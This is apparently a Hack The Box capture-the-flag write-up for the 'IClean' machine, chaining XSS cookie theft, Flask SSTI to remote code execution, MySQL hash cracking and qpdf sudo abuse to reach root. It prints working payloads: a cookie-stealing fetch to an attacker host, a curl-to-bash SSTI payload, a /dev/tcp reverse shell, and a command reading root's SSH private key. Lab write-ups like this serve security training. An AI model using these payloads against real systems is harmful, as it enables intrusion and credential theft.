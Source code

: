 # 🧼 Hack The Box - IClean Writeup 

> Difficulty: *Medium*  
> Tags: XSS, SSTI, Flask, Cookie Stealing, MySQL, qpdf, Privilege Escalation  
> Author: *mohamed tarek*

---

## 🧾 Summary

This writeup covers the steps I used to gain root access on the **IClean** machine. The attack path included:

- XSS leading to **cookie stealing**
- **SSTI** in Flask bypassing filters
- Cracking MySQL password hashes
- Exploiting **qpdf** misconfiguration for privilege escalation

---

## 🔍 Reconnaissance

Initial Nmap scan:

```bash
nmap -sC -sV -v <target ip>

Open ports:

22/tcp - SSH

80/tcp - HTTP

Wappalyzer detected the web framework as Flask

## 🔎 Enumeration

Navigating to /login/ revealed nothing of interest.

The /quote/ page allowed input via the service parameter, which was vulnerable to XSS.

XSS Test:
<img src="http://<attacker_ip>:8000">

This was URL-encoded via Burp Suite and sent to the server. A request hit the listener, confirming reflected XSS.

Discovered /dashboard/ via feroxbuster, but it required authentication.

## 🍪 Exploiting XSS: Cookie Stealing

Used a classic XSS payload to steal session cookies:

<img src=x onerror=fetch('http://<attacker_ip>:8000/?c='+document.cookie);>

Set up a Python HTTP server to catch the cookie.

Added the stolen session cookie to the browser using "Cookie Editor" under the name session, which granted access to /dashboard/.

## 🧾 SSTI to RCE (QRGenerator)

The dashboard allows generating invoices and QR codes.

At /QRGenerator/, the input was vulnerable to Server-Side Template Injection.

SSTI Confirmation:
Input:
{{7*7}}

Output contained 49 → confirmed SSTI.

Bypassing Filters:
Used encoded Flask SSTI payload for RCE

{{request|attr("application")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("curl <attacker_ip>:8000/revshell | bash")|attr("read")()}}

Set up HTTP server and listener:

python3 -m http.server
nc -lvnp <port>

Reverse shell script:

#!/bin/bash
bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'

After submission, shell connected back successfully.

## 🛠️ Local Enumeration

Found Flask app source in /opt/app/app.py.

Discovered database credentials for MySQL:

mysql -u iclean -p

Dumped user password hashes (admin and consuela).

Cracked consuela's hash using crackstation.net. admin remained uncracked.

## 🔐 Privilege Escalation via qpdf

As user consuela, I could execute qpdf as root:

sudo -l
# Output:
# (ALL) NOPASSWD: /usr/bin/qpdf

Used qpdf to exfiltrate root’s private SSH key:

sudo /usr/bin/qpdf --empty /tmp/priv_key.txt --qdf --add-attachment /root/.ssh/id_rsa --

The key was saved in /tmp/priv_key.txt.

Copied it locally:

chmod 600 id_rsa
ssh -i id_rsa root@<target_ip>

## 🏁 Root Flag

After successful SSH login as root, grabbed the root flag:

cat /root/root.txt

## 🧠 Lessons Learned

XSS can become powerful when chained with session hijacking.

Always test for SSTI in Flask apps with filtered input.

qpdf is a lesser-known but very effective privilege escalation vector.

Cracking password hashes is sometimes necessary to move forward.

## 🔧 Tools Used
nmap

feroxbuster

Burp Suite

Python HTTP server

netcat

Cookie Editor Extension

crackstation.net

https://www.hackthebox.com/achievement/machine/1953678/596
